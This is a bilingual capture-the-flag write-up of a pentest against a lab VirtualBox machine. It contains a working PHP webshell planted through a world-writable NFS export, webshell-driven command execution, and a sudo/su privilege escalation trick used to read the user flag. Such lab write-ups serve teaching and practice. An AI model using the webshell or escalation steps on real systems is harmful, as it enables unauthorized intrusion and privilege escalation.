









# CTF Writeup — Machine 1 (Black Box Pentest)

| | |
|---|---|
| **Category** | Red Team / Pentest (Black Box) |
| **Difficulty** | 100 pts |
| **Flag** | `FIAP{9358cfbe200d4f40ee428c2bd1fb3dec}` |
| **Target** | VM provided via Google Drive (imported into VirtualBox) |
| **Attacker** | Kali Linux (VirtualBox, Host-Only network) |

---

## 🇬🇧 English

### Challenge
> Perform a full Black Box pentest against an MZ server in FIAP Invest's topology and obtain `user.txt` as the flag.


### 1. Setup & Discovery
Target VM and Kali were put on the same VirtualBox **Host-Only Network**. Host discovery:
```bash
sudo netdiscover -r 192.168.56.0/24
```


Target identified: `192.168.56.101`.

### 2. Enumeration
```bash
sudo nmap -sV -sC -p- 192.168.56.101
```


Open: **80/tcp** (Apache, Pluck CMS) and **2049/tcp** (NFS, unauthenticated).

```bash
showmount -e 192.168.56.101
```


NFS export `/var/www/html/pluck/data/modules/images` with **no client restriction (`*`)**.

### 3. Foothold — Webshell via NFS
```bash
sudo mount -t nfs 192.168.56.101:/var/www/html/pluck/data/modules/images /tmp/nfs_mount
```


Share was world-writable (`drwxrwxrwx`, `nobody:nogroup`). Dropped a PHP webshell directly into it (kept alive with a `while true` loop, since the target periodically cleaned the folder):
```bash
echo '<?php system($_GET["cmd"]); ?>' > /tmp/nfs_mount/shell.php
curl "http://192.168.56.101/pluck/data/modules/images/shell.php?cmd=id"
```


```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

A reverse shell was attempted but the target **blocks all outbound traffic** (confirmed via `ping`), so the rest of the attack stayed on this webshell channel.

### 4. Privilege Escalation
`/etc/passwd` revealed user `jangow`, but his home was locked down:
```bash
curl -G ".../shell.php" --data-urlencode "cmd=ls -la /home/"
```


`/home/jangow` = `drwxr-x---` → `www-data` had no access. Checked sudo rights and SUID binaries:
```bash
curl -G ".../shell.php" --data-urlencode "cmd=sudo -l"
curl -G ".../shell.php" --data-urlencode "cmd=find / -perm -4000 -type f 2>/dev/null"
```


Key finding:
```
User www-data may run the following commands on jangow:
    (root) NOPASSWD: /usr/bin/su jangow
```

Two obstacles had to be worked around: `sudo` required a **tty** (solved with `script -qc '...' /dev/null`), and the sudoers rule only matched the **exact** command `/usr/bin/su jangow` with no extra args (so `-c "..."` broke it — piping via stdin instead worked).

### 5. Flag
```bash
curl -G "http://192.168.56.101/pluck/data/modules/images/shell.php" \
     --data-urlencode "cmd=script -qc 'echo cat /home/jangow/user.txt | sudo /usr/bin/su jangow' /dev/null"
```


```
FIAP{9358cfbe200d4f40ee428c2bd1fb3dec}
```

### Attack Chain
```
netdiscover + nmap → NFS export with no ACL (*) + world-writable share
   → PHP webshell via mounted NFS → RCE as www-data
   → outbound firewall blocks reverse shell → stay on webshell channel
   → /home/jangow locked down → sudo -l reveals NOPASSWD: su jangow
   → script -qc (tty) + stdin pipe (exact-match bypass) → su jangow
   → cat user.txt → FLAG
```

### Key Takeaways
- An NFS export with no client ACL and world-writable permissions overlapping a web root is a direct RCE path.
- No outbound connectivity doesn't stop an attack — command execution through the existing webshell is often enough.
- `sudoers` NOPASSWD rules can match the **exact** command line; extra arguments can silently break the match.
- `script -qc '...' /dev/null` simulates a tty for `sudo`/`su` from a non-interactive shell; piping via stdin drives interactive programs without `-c`.

---

## 🇧🇷 Português

### Desafio
> Realizar um Pentest Black Box completo em um servidor da MZ na topologia da FIAP Invest e obter o `user.txt` como flag.



### 1. Preparação e Descoberta
VM alvo e Kali na mesma **Rede Host-Only** do VirtualBox. Descoberta de hosts:
```bash
sudo netdiscover -r 192.168.56.0/24
```


Alvo identificado: `192.168.56.101`.

### 2. Enumeração
```bash
sudo nmap -sV -sC -p- 192.168.56.101
```


Portas abertas: **80/tcp** (Apache, Pluck CMS) e **2049/tcp** (NFS, sem autenticação).

```bash
showmount -e 192.168.56.101
```


Export NFS `/var/www/html/pluck/data/modules/images` **sem restrição de cliente (`*`)**.

### 3. Acesso Inicial — Webshell via NFS
```bash
sudo mount -t nfs 192.168.56.101:/var/www/html/pluck/data/modules/images /tmp/nfs_mount
```


Compartilhamento gravável por todos (`drwxrwxrwx`, `nobody:nogroup`). Webshell PHP enviada direto pela pasta (mantida viva com um loop `while true`, pois o alvo limpava a pasta periodicamente):
```bash
echo '<?php system($_GET["cmd"]); ?>' > /tmp/nfs_mount/shell.php
curl "http://192.168.56.101/pluck/data/modules/images/shell.php?cmd=id"
```


```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Reverse shell foi tentada, mas o alvo **bloqueia todo tráfego de saída** (confirmado via `ping`), então o ataque seguiu pelo canal da própria webshell.

### 4. Escalação de Privilégios
O `/etc/passwd` revelou o usuário `jangow`, mas seu diretório estava trancado:
```bash
curl -G ".../shell.php" --data-urlencode "cmd=ls -la /home/"
```


`/home/jangow` = `drwxr-x---` → `www-data` sem acesso. Verificados privilégios de sudo e binários SUID:
```bash
curl -G ".../shell.php" --data-urlencode "cmd=sudo -l"
curl -G ".../shell.php" --data-urlencode "cmd=find / -perm -4000 -type f 2>/dev/null"
```


Achado-chave:
```
User www-data may run the following commands on jangow:
    (root) NOPASSWD: /usr/bin/su jangow
```

Dois obstáculos superados: o `sudo` exigia **tty** (resolvido com `script -qc '...' /dev/null`), e a regra do sudoers casava apenas com o comando **exato** `/usr/bin/su jangow` sem argumentos extras (então `-c "..."` quebrava o match — a solução foi injetar o comando via stdin).

### 5. Flag
```bash
curl -G "http://192.168.56.101/pluck/data/modules/images/shell.php" \
     --data-urlencode "cmd=script -qc 'echo cat /home/jangow/user.txt | sudo /usr/bin/su jangow' /dev/null"
```


```
FIAP{9358cfbe200d4f40ee428c2bd1fb3dec}
```

### Cadeia de Ataque
```
netdiscover + nmap → export NFS sem ACL (*) + compartilhamento gravável por todos
   → webshell PHP via NFS montado → RCE como www-data
   → firewall de saída bloqueia reverse shell → seguir pelo canal da webshell
   → /home/jangow trancado → sudo -l revela NOPASSWD: su jangow
   → script -qc (tty) + pipe via stdin (bypass do match exato) → su jangow
   → cat user.txt → FLAG
```

### Principais Aprendizados
- Export NFS sem ACL de cliente e com escrita aberta, sobrepondo a raiz web, é um caminho direto para RCE.
- Falta de conectividade de saída não impede o ataque — execução de comandos pelo canal web já existente costuma bastar.
- Regras `NOPASSWD` no `sudoers` podem casar com a **linha de comando exata**; argumentos extras podem quebrar o match silenciosamente.
- `script -qc '...' /dev/null` simula um tty para `sudo`/`su` a partir de um shell não interativo; alimentar via stdin conduz programas interativos sem precisar de `-c`.